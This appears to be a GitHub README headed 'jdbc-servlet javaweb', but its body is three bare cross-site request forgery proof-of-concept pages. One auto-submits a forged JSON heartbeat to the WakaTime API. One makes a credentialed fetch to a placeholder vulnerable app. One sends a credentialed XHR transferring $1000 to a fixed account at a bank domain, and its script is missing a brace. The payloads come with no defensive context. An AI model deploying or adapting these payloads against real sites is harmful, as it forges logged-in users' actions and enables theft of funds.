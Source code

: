 # jdbc-servlet
javaweb

<head>
<script src="https://ajax.googleapis.com/ajax/libs/jquery/1.12.4/jquery.min.js"></script>
<script>
$( document ).ready(function() {
    $("#z").attr("name",'{"entity":"https://zzz.com","type":"domain","time":"'+($.now()/1000)+'","project":"<<LAST_PROJECT>>","is_debugging":false,"plugin":"chrome-wakatime/1.0.2","fakeparam":"');
    $("#f").submit();
});
</script>
</head>
<body>
<form id="f" ENCTYPE="text/plain" action="https://api.wakatime.com/api/v1/users/current/heartbeats" method="post">
<input id="z" type="hidden" name='test' value='test"}'> 
<input type="submit" value="send">
</form>
</body>



<title>JSON CSRF POC</title>
<body>
<center>
<h1> JSON CSRF POC </h1>
<script>
fetch('http://vul-app.com', {method: 'POST', credentials: 'include', headers: {'Content-Type': 'text/plain'}, body: '{"name":"attacker","email":"attacker.com"}'});
</script>
<form action="#">
<input type="button" value="Submit" />
</form>
</center>
</body>



  <body>
    <script>
      function submitRequest()
      {
        var xhr = new XMLHttpRequest();
        xhr.open("POST", "https:\/\/members.bankofdirectdefense.com\/accounts\/transfer", true);
        xhr.setRequestHeader("Content-Type", "application\/json");
        xhr.withCredentials = true;
        xhr.send("{\"from-account\": 1,\"toAccount\": \"021000021-9876543210\",\"amount\": 1000,\"currency\": \"USD\"}");
      submitRequest();
    </script>
  </body>


